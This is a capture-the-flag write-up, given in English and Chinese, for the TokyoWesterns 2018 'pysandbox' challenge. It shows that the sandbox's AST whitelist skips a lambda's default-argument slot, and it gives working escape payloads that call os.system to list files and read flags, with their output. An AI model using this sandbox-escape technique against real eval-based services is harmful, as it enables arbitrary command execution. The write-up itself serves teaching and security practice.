 # TokyoWesterns 2018 : pysandbox

**category** : misc

**points** : 121, 126

**solves** : 52, 48

## write-up ( English version )

`sys.stdout.write(repr(eval(expr)))`

Our input will be sent to `eval` function

The program use some rules to check every node on `ast` ( abstract syntax tree ) 

`print(ast.dump(ast.parse(expr)))`

Use `ast.dump` to see how ast looks like

```
[1, 2]
Module(body=[Expr(value=List(elts=[Num(n=1), Num(n=2)], ctx=Load()))])
```

According to `attributes`, the program will check `value` in `Expr` and `elts` in `List`

And will only check the node `attributes` specify

That means what `attributes` not specify will not be checked

There must be some where they miss, I bet they are not python compiler master too.

```
lambda x: x
Module(body=[Expr(value=Lambda(args=arguments(args=[Name(id='x', ctx=Param())], vararg=None, kwarg=None, defaults=[]), body=Name(id='x', ctx=Load())))])
```

In `lambda`, they only check `body`.

But `defaults`, where we put default values in parameters, can put all kinds of things

Let's put `os.system`

```
lambda x = __import__("os").system("ls"): x
flag
run.sh
sandbox.py
```

```
lambda x = __import__("os").system("cat flag"): x
TWCTF{go_to_next_challenge_running_on_port_30002}
```

`TWCTF{go_to_next_challenge_running_on_port_30002}`

Yeah, second round

```
lambda x = __import__("os").system("ls"): x
flag
flag2
run.sh
sandbox2.py
```

```
lambda x = __import__("os").system("cat flag2"): x
TWCTF{baby_sandb0x_escape_with_pythons}
```

Oops, same solution for two flags, lucky me XD

`TWCTF{baby_sandb0x_escape_with_pythons}`

## write-up ( 中文版 )

`sys.stdout.write(repr(eval(expr)))`

把我們的輸入做 `eval`

但是前面會用 `ast` 去檢查 abstract syntax tree 上的節點

`print(ast.dump(ast.parse(expr)))`

先用 `ast.dump` 去看 ast 長什麼樣子

```
[1, 2]
Module(body=[Expr(value=List(elts=[Num(n=1), Num(n=2)], ctx=Load()))])
```

那根據他寫的 `attributes` 他會去檢查 `Expr` 的 `value` 和裡面的 `List` 的 `elts`

只有在他寫的規則裡面他都會走進去該節點做檢查

但是只要他的規則沒寫到的節點他就不會走進去檢查

python 的語法這麼多肯定有哪裡漏掉

```
lambda x: x
Module(body=[Expr(value=Lambda(args=arguments(args=[Name(id='x', ctx=Param())], vararg=None, kwarg=None, defaults=[]), body=Name(id='x', ctx=Load())))])
```

`lambda` 只有檢查 `body` 但是可以發現參數的地方可以放 `defaults` 裡面可以放各種東西

```
lambda x = __import__("os").system("ls"): x
flag
run.sh
sandbox.py
```

```
lambda x = __import__("os").system("cat flag"): x
TWCTF{go_to_next_challenge_running_on_port_30002}
```

`TWCTF{go_to_next_challenge_running_on_port_30002}`

接下來就來到第二關

```
lambda x = __import__("os").system("ls"): x
flag
flag2
run.sh
sandbox2.py
```

```
lambda x = __import__("os").system("cat flag2"): x
TWCTF{baby_sandb0x_escape_with_pythons}
```

啊一次就過了兩關...XD

`TWCTF{baby_sandb0x_escape_with_pythons}`

# other write-ups and resources

